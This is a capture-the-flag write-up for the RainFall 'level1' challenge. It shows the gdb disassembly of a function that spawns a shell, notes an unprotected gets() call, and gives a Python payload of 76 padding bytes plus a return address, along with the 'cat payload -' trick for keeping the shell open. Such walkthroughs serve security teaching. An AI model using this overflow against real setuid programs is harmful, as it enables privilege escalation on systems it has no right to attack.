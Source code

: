 # Baby's first buffer overflow

What we've got:
```bash
level1@RainFall:~$ ls -lah
total 17K
drwxrwx---+ 1 level1 level1   80 Nov  9 20:31 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3.5K Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5.1K Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

We find inside the binary to attack two user-defined functions, `main` and `run`.

```bash
08048480 T main
08048444 T run
```

Taking a look inside `run` function, it will spawn a new shell in which we can escalate to next level.

```gdb
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
```

Inside main we find a basic unprotected `gets` call, our attack will consist in overwritting the main return address to call the `run` function.

```python
#!/usr/bin/env python

import sys
from struct import pack

addr = 0x08048444

payload = 'A' * 76
payload += pack("<I", addr)

sys.stdout.write(payload)
```

Should do the job.

Throwing the payload should spawn a new shell, then close it immediatelly, because STDIN will be closed when receiving the payload, so we should call `cat payload -` to maintaing STDIN open and get access to new shell.